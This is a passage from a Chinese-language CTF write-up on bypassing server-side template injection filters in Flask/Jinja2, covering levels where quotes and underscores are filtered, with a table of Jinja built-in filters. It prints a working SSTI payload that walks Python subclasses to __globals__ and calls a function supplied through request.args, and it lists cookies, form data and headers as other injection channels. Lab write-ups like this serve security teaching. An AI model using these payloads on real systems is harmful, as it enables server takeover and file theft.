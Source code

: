 ![image-20210927131713503](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927131713503.png)

### Level 5 bypass ‘ “

![image-20210925232814991](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210925232814991.png)
初步尝试发现只过滤了`' "`,其余没有任何过滤,此处可以使用`request.args`绕过.

> 在搭建 flask 时,大多数程序内部都会使用 flask 的 request 来解析 get 请求.此出我们就可以通过构造带参数的 url,配合 request.args 获取构造参数的内容来绕过限制

同样使用 `Level 1`的脚本跑出可利用类的索引为 132,构造如下 payload,拿到 flag

`{{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}`

![image-20210925234522328](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210925234522328.png)

#### 拓展

既然能够通过`request.args`获取 get 参数构造 payload,那能否通过 post 提交内容构造 payload 呢.答案是肯定的,除此之外,还能通过 cookie 传入等.读者们可以亲自动手尝试利用`request.post`或`request.cookie`的方法绕过本题.

> request 代码详细内容可前往[官方文档](https://dormousehole.readthedocs.io/en/latest/api.html#flask.request)自行了解

```python
request.args.key   	 获取get传入的key的值
request.values.x1 	 所有参数
request.cookies      获取cookies传入参数
request.headers      获取请求头请求参数
request.form.key   	 获取post传入参数	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 获取post传入参数	(Content-Type:a/b)
request.json		 获取post传入json参数  (Content-Type: application/json)
```

### Level 6 bypass \_

![image-20210926103636017](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926103636017.png)

初步尝试发现过滤了`_`,其余没有任何过滤,此处可以使用过滤器`| attr()`绕过.

#### 关于过滤器

[官方链接](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)

    1. 过滤器通过管道符号（|）与变量连接,并且在括号中可能有可选的参数
    2. 可以链接到多个过滤器.一个滤波器的输出将应用于下一个过滤器.

搬一下官方所给的内置过滤器

| [`abs()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.abs)                       | [`float()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.float)             | [`lower()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.lower)           | [`round()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.round)           | [`tojson()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.tojson)       |
| -------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------- |
| [`attr()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr)                     | [`forceescape()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.forceescape) | [`map()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.map)               | [`safe()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.safe)             | [`trim()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.trim)           |
| [`batch()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.batch)                   | [`format()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.format)           | [`max()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.max)               | [`select()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.select)         | [`truncate()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.truncate)   |
| [`capitalize()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.capitalize)         | [`groupby()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.groupby)         | [`min()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.min)               | [`selectattr()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.selectattr) | [`unique()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.unique)       |
| [`center()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.center)                 | [`indent()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.indent)           | [`pprint()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.pprint)         | [`slice()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.slice)           | [`upper()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.upper)         |
| [`default()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.default)               | [`int()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.int)                 | [`random()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.random)         | [`sort()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.sort)             | [`urlencode()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.urlencode) |
| [`dictsort()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.dictsort)             | [`join()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.join)               | [`reject()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.reject)         | [`string()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.string)         | [`urlize()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.urlize)       |